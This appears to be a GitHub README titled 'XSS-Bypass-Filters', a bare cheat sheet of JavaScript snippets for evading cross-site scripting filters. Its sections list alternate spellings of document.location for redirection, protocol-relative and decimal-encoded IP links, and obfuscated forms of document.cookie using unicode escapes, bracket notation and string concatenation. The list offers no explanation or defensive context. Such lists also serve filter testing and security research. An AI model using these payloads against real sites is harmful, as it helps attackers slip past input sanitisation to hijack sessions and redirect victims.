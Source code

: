 # XSS-Bypass-Filters

### Redirection
```
document.location=
document['location']=
window.location=
this["window"]["location"]=
document.location.href=
location.href=
location= 
```

### Link

```
//google.com/?=a
//134744072:1234/?a= = 8.8.8.8
```

### Cookies

```
document.cookie 
document['cookie']
with(document)alert(cookie)
doc\u0075ment.cookie
doc\u0075ment['cookie']
window["doc"+"ument"]["cookie"]
```


